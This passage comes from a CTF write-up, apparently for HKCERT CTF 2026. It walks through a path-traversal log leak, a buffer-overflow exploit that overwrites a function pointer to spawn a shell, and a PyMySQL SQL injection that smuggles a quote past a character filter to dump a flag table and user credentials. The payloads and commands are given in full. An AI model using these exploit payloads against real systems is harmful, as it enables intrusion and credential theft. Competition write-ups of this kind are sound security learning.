The logs browse like a diary: one folder per date, one folder per branch. So what happens if we ask for past dates? `....//2026-09-26/development/log.md` answers and it is a gift that keeps on giving.

```text {hl_lines=[3, 7, 8]}
# 2026-09-26 · development/log.md (abridged)
- Utility Deployed: Custom Log-Deploying Utility Program
- Service Endpoint: reachable from this viewer over the "/deploy" WebSocket
  (bytes are bridged straight to the daemon)
- Implementation Upload: The complete, raw source code for this utility has
  been uploaded for peer review and inspection:
  - File Path: 'code-review/log-deploy.c' and 'code-review/log-deploy'
- Review Status: Open for anyone on the team to review (fingers crossed).
```

```text
....//2026-09-26/code-review/log-deploy.c   (full C source)
....//2026-09-26/code-review/log-deploy     (binary, base64)
```

*(fingers crossed)* buddy, you have no idea.


The source and the binary are already sitting in the loot pile *(courtesy of the 09-26 goldmine above)* and the `/deploy` WebSocket bridge forwards raw bytes straight to the daemon. All that is left is to audit, offset and pop.

### Audit, audit and audit

The daemon `/app/run` on its own pod, a 16928-byte non-PIE ELF running as PID 1 describes itself as an "Enterprise Log Deployment Utility", which is corporate for "menu-driven pwn challenge". Non-PIE means fixed addresses; thank you, economy of scale. The source audit is short and painful:

```c {linenos=inline, hl_lines=[4]}
typedef struct {
    char title[32];         // offset 0
    char content[64];       // offset 32
    void (*handler)(void);  // offset 96 <- called by view_log()
} LogEntry;
```

`create_log()` reads with `fgets()` and is safe. `edit_log()` reads the content buffer with `gets()` unbounded and `view_log()` then calls `log_database[index]->handler()`. In leaked-source form:

```c {linenos=inline, hl_lines=[3, 9, 15]}
// log-deploy.c (abridged)
void create_log() {
    fgets(new_log->content, CONTENT_SIZE, stdin);   // bounded. the polite one.
    new_log->handler = default_log_handler;
}

void edit_log() {
    printf("Enter new content: ");
    gets(log_database[index]->content);             // unbounded. gets(). in 2026.
}

void view_log() {
    printf("Content: %s\n", log_database[index]->content);
    if (log_database[index]->handler)
        log_database[index]->handler();             // ...and then it calls whatever lives there
}
```

Two handlers are compiled in:

```c {linenos=inline, hl_lines=[2]}
void default_log_handler(void)      { printf("[INFO] Log Output executed.\n"); }
void diagnostic_shell_handler(void) { system("/bin/sh"); }   // 0x4012d0
```

*(both snippets abridged from the leaked `log-deploy.c`)*

A buffer we control, a function pointer right after it and a `system("/bin/sh")` gadget with a known address. It's ret2win season.

### Cyclic, crash, repeat

To find the offset, pull the binary over the LFI, run it locally and let pwntools do the counting: create log 0, edit index 0 with a cyclic pattern, view log 0:




```text {linenos=inline}
Program received signal SIGSEGV
0x0000000000401661 in view_log ()
RAX  0x6161617261616171 ('qaaaraaa')
>>> cyclic_find(0x6161617261616171)
64
```

64 bytes from the start of `content` to the handler slot (96 − 32 the math checks out). And we get the address of the `diagnostic_shell_handler` function:


The payload writes itself *(64, as measured not 63, not 65, 64!!!!)*:

```python {linenos=inline}
>>> b"A" * 64 + p64(0x4012d0)
b'AAAA...A\xd0\x12@\x00\x00\x00\x00\x00'
```

### Putting it all together

Delivery is actually the easiest part. We can just use the in-game's log-deploying utility to deliver our payload.

```text {linenos=inline}
1  → title: x, content: x                    (create log 0)
3  → index 0, new content:
     'A' * 64 + '\xd0\x12@\x00\x00\x00\x00\x00'  (overflows the handler)
2  → view log 0                              (calls the handler)

→ "[!] Diagnostic mode triggered! Spawning shell..."
```



`system("/bin/sh")` as uid 1000 on the daemon pod. The pod is a sealed sandbox uid 1000 only (`uid_map 1000 1000 1`), `CapEff 0`, `NoNewPrivs=1`, seccomp, a read-only overlay, a fresh empty netns per connection and no bash/curl/python to be found but we never wanted out; we wanted the flag:

```text
cat /app/flag-f919a8f1676babbbc5c7653f6233cbb8.txt
```


`hkcert26{E4sy_Buff3r_Ov3rfl0w_Att4ck_4be15642edd37ca5ae046c879a9c2ca8}` Pwned!

And this is the entire workflow!



# 3 - Legacy Auth

This part covers my solve of `[WEB] Legacy Auth` one endpoint, one leaked f-string and a 64-character budget that turns SQL injection into a game of payload Tetris. Last and literally least: a service that was supposed to be replaced years ago.

## [WEB] Legacy Auth
> "_The past is a foreign country: they do things differently there._" — L. P. Hartley

The game site (`unauthorized.cg.chal.sh`, gunicorn/Python) still runs a legacy service and it introduces itself: `GET /legacy/` answers with a full self-description status, replacement, version and a map of every endpoint it still serves:


Nine routes, neatly labelled: `login`/`logout`/`me` for sessions, a three-piece OTP suite (`mint-otp`, `otp-status`, `verify-otp`), `dashboard` and `finish` behind the auth gate and a `health` check that will outlive us all.

### PyMySQL sorcery

The one this section lives on is `POST /legacy/api/login {"username", "password"}`. Better yet, a community post at `/posts/postmortem-legacy-login` leaks the handler: 

```python {linenos=inline, hl_lines=[3]}
# /posts/postmortem-legacy-login (abridged)
sql = f"SELECT username, password FROM users
        WHERE username = '{username}' AND password = %(password)s"
```

`username` is interpolated raw; `password` is parameterised. Normally that means one bounded input and one unbounded one. But this is PyMySQL and PyMySQL executes `query % args` named placeholders get substituted anywhere, including inside the username string.

The validation, meanwhile, bans the fun characters: a `'` or a `\` in the username → `400 invalid_username` and anything over 64 characters → `credentials_too_long`. So we can't bring our own quote... but the password field can lend us one.

Here's the trick: the password is parameterised, so PyMySQL escapes it an empty password becomes `''`. Write `%(password).1s` *(a precision of one)* inside the username, send an empty password and the placeholder pastes exactly one character of that `''`: a quote.

```text
x%(password).1s OR 1=1#
     └── PyMySQL pastes the FIRST character of the escaped empty password ('') here: '
username becomes:  x' OR 1=1#
final SQL:  SELECT username, password FROM users WHERE username = 'x' OR 1=1#' AND password = ''
                                                                          └── the # eats the rest
```


### Three codes to rule them all

This flag is about getting data OUT. The database is named `chall`, so the natural bet is a table named `flag`. The honest way is `information_schema`, but do the budget math first.

The prefix `x%(password).1s` already eats 16 characters, the cap is 64 and even the shortest possible dump (`UNION SELECT table_name,2 FROM information_schema.tables#`) lands at roughly 74. Information schema is out of reach; guesswork it is.

First, confirm that UNION works at all two columns, first one echoed:


```text {linenos=inline}
x%(password).1s UNION SELECT user(),2               → user@10.20.80.179
x%(password).1s UNION SELECT @@secure_file_priv,2   → /var/lib/mysql-files/
```

*(MySQL 8.0.39, `secure_file_priv` locked down no cross-service file RCE. The usual cheat-sheet payloads UNION, error-based `extractvalue`, `count(*)`, `user()` all work through this channel, budget permitting. Fine, we're here for the flag anyway.)*

So: Burp Intruder, 40 table names, one request each, same prefix `x%(password).1s UNION SELECT *,1 FROM <name>#`. The error messages sort themselves into a three-way oracle:

| Response | Meaning |
|---|---|
| `500 (1146, "Table 'chall.<name>' doesn't exist")` | miss |
| `500 (1222, 'The used SELECT statements have a different number of columns')` | table exists, too wide |
| `200` | one-column table the row rides out raw |

(`SELECT *,1` from a one-column table yields exactly two columns, which fits the UNION; anything wider overflows to 1222.)



`users` answers 1222 (two columns plus our `1` makes three). `flag` answers **200** immediately:

```json {linenos=inline}
{"username": "x%(password).1s UNION SELECT *,1 FROM flag#", "password": ""}
```

```json {linenos=inline, hl_lines=[2]}
{"ok": true, "user": {
  "username": "hkcert26{n0_qu0t3_n0_b4cksl4sh}",
  "display_name": "hkcert26{...}",
  "role": "staff" }}
```

43 characters total, zero quotes, zero backslashes and validation-clean. Same trick as the admin login, different payoff:

A session in versus data out and the flag text confirms the intent: `hkcert26{n0_qu0t3_n0_b4cksl4sh}`. Tada!



For completeness: the `users` table did fall later via `LIMIT n,1` UNIONs *(row order is not stable across queries, so the columns had to be re-paired by testing each login)*:

```text {linenos=inline}
admin    : pass      Site Administrator   admin@401.local   role=admin
hacker   : 1337      Rei Nakamura         hacker@401.local  role=staff
operator : operator  Night Operator       ops@401.local     role=staff
```

> [!CAUTION] The OTP gate stayed shut
> `POST /api/otp` mints codes just fine (attempts_left 5, expires 300), but `GET /api/otp` and every verify attempt answer `401 "OTP expired"` and `/api/dashboard` returns verdict `ZGVuaWVk` ("denied"). The flag never needed it but if you know where the OTP actually arrives, I owe you a drink.

Here's a recap of what I did:



# Closing remarks

HKCERT CTF 2026 was the polar opposite of my Holmes experience: instead of analysing someone else's breach, I got to cause one. The event did a great job of making a game client feel like a real attack surface. Patchable webviews, per-session CMS generations, signed office tickets and a pwn daemon disguised as enterprise software. Despite the numerous setbacks, I really enjoyed it. Key takeaways are:

- **Error messages are oracles.** EACCES on stat, "not a valid log file", MySQL 1146 vs 1222 half of these solves are just listening to what the server says.
- **The room will hand you its own source code if you ask nicely.** Logs are forever, folks. Don't paste secrets into diaries, even internal ones.
- **Patch the environment, not just the target.** The dnSpy webview patch unlocked more than any single exploit did it gets its own section now and it earned it.
- **Constraints breed creativity.** The 64-character username cap is the only reason `%(password).1s` exists in this write-up.
- **Mass assignment is alive and well in 2026.** One extra POST parameter, one webshell.

That's 5 flags total in 3 challenges. The rest of ContextGrave hieroglyph dialogs, a ghost disk with commitment issues, an IE6-only S3 gate and a rhythm game with a chart called `troll.sus` may get its own post someday.

# References
- [https://github.com/dnSpyEx/dnSpy](https://github.com/dnSpyEx/dnSpy)
- [https://github.com/Voltstro-Studios/UnityWebBrowser](https://github.com/Voltstro-Studios/UnityWebBrowser)
- [https://chromedevtools.github.io/devtools-protocol/](https://chromedevtools.github.io/devtools-protocol/)
- [https://docs.pwntools.com](https://docs.pwntools.com)
- [https://github.com/pwndbg/pwndbg](https://github.com/pwndbg/pwndbg)
- [https://portswigger.net/burp](https://portswigger.net/burp)
- [https://github.com/PyMySQL/PyMySQL](https://github.com/PyMySQL/PyMySQL)
- [https://www.sudo.ws/docs/man/sudoers.man/](https://www.sudo.ws/docs/man/sudoers.man/)
- [https://opensolution.org/download/home.html](https://opensolution.org/download/home.html)
- [https://kashz.gitbook.io/kashz-jewels/services/quick-cms](https://kashz.gitbook.io/kashz-jewels/services/quick-cms)
- [https://www.exploit-db.com/exploits/49494](https://www.exploit-db.com/exploits/49494)
- [https://ctf.hkcert.org](https://ctf.hkcert.org)
